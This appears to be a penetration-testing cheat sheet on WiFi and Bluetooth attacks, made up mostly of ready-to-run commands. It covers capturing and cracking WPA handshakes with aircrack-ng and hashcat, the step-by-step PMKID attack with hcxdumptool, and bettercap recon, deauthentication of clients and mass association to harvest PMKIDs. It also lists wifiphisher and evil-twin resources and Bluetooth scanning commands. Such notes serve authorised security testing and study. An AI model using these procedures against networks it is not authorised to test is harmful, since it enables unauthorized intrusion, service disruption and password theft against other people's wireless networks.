 # WiFi & Wireless

## Wifi 

### Tools 

- Airgeddon: <https://github.com/v1s1t0r1sh3r3/airgeddon>
- wifite2 - Attack multiple WEP and WPA encrypted networks at the same time: <https://github.com/derv82/wifite2>
- WIFIPhisher - Phishing attack tool for Wifi networks: <https://github.com/wifiphisher/wifiphisher>
- WiFi Wardriving with Android - WiGLE WiFi Wardriving: <https://play.google.com/store/apps/details?id=net.wigle.wigleandroid&hl=en>
- inSSIDer is a wireless network scanner. It was meant to replace NetStumbler, which was a Microsoft Windows Wi-Fi scanner.
- Network Watcher by NirSoft - displays the list of all computers and devices that are connected to the same network
- 
### Quick Reference 
- `iwconfig`
- `iwlist wlan0 scan`
- `nmcli dev wifi`
- `nmcli dev wifi connect AP-SSID password APpassword`
- `airmon-ng start|stop|restart interface`
- Capture and crack handshake:
    ```
    aircrack-ng captured.cap​
    aircrack-ng -a 2 -b <BSSID> -w wordlist captured.cap​
    ```
- WPA/WPA2 PMKID
  - STEP 1:
    - <https://github.com/ZerBea/hcxdumptool>
    - <https://github.com/aircrack-ng/aircrack-ng>
  - STEP 2: Find target BSSID:
    - `airodump-ng <int>`
  - STEP 3: Add BSSID in ‘bssid.txt’ and use ‘hcxdumptool’:
    - `hcxdumptool -i <int> --filterlist=bssid.txt --filermode=2 --enable_status=2 -o pmkid.pcap`
  - STEP 4: Extract PMKID into hashcat format for cracking:
    - <github.com/ZerBea/hcxtools>
    - `hcxpcaptool -z wpa2_pmkid_hash.txt pmkid.pcap`
  - STEP 5: Crack:
    - `hashcat -a 0 -m 16800 -w 4 wpa2_pmkid_hash.txt dict.txt`
  - <https://mobile.twitter.com/netmux/status/1097908867374215168>
- WPA enterprise (evil tween attack)
  - <https://pwn.no0.be/exploitation/wifi/wpa_enterprise/>
  - <https://rootsh3ll.com/evil-twin-attack/>
- 4 way handshake capture:
    ```bash
    sudo bettercap -iface wlan0
    ```
  - this will set the interface in monitor mode and start channel hopping on all supported frequencies: `wifi.recon on`
  - we want our APs sorted by number of clients for this attack, the default sorting would be `rssi asc`: 
    ```bash
    set wifi.show.sort clients desc
    ```
  - every second, clear our view and present an updated list of nearby WiFi networks
    ```bash
    set ticker.commands 'clear; wifi.show'
    ticker on
    ```
  - other
    ```bash
    wifi.recon.channel 1
    ```
    ```bash
    wifi.deauth e0:xx:xx:xx:xx:xx
    ```
- Cracking 4-way handshake:
    ```bash
    /path/to/cap2hccapx /root/bettercap-wifi-handshakes.pcap bettercap-wifi-handshakes.hccapx
    /path/to/hashcat -m2500 -a3 -w3 bettercap-wifi-handshakes.hccapx '?d?d?d?d?d?d?d?d'
    ```
- Client-less **PMKID Attack**
  - <https://hashcat.net/forum/thread-7717.html>
  - PMKID = HMAC-SHA1-128(PMK, "PMK Name" | MAC_AP | MAC_STA)
    ```bash 
    # wifi.assoc supports 'all' (or `*`) or a specific BSSID, just like wifi.deauth
    wifi.assoc all
    ```
  - All nearby vulnerable routers (and let me reiterate: a lot of them are vulnerable), will start sending you the PMKID, which bettercap will dump to the usual pcap file:
- PMKID Cracking
    ```bash 
    /path/to/hcxpcaptool -z bettercap-wifi-handshakes.pmkid /root/bettercap-wifi-handshakes.pcap
    /path/to/hashcat -m16800 -a3 -w3 bettercap-wifi-handshakes.pmkid '?d?d?d?d?d?d?d?d'
    ```

### References

**New References**

- Tracking All the WiFi Things: https://osintcurio.us/2019/01/15/tracking-all-the-wifi-things/
- How to Make a Captive Portal of Death: https://medium.com/bugbountywriteup/how-to-make-a-captive-portal-of-death-48e82a1d81a

## Bluetooth 

### Quick References

- `apt-get install bluez`
- `hciconfig` - similarly to ifconfig
  - `hciconfig hci0 up`
- `hcitool` - provide us with device name, device ID, device class, and device clock information
  - `hcitool scan`
  - `hcitool inq` -  MAC addresses of the devices, the clock offset, and the class of the devices.
    - <https://www.bluetooth.org/en-us/specification/assigned-numbers/service-discovery>
- `hcidump` - sniff the Bluetooth communication
- Service Discovery Protocol (SDP) is a Bluetooth protocol for searching for Bluetooth services (Bluetooth is suite of services),
  - `sdptool browse MACaddress`
- Check reachability: `l2ping MACaddress`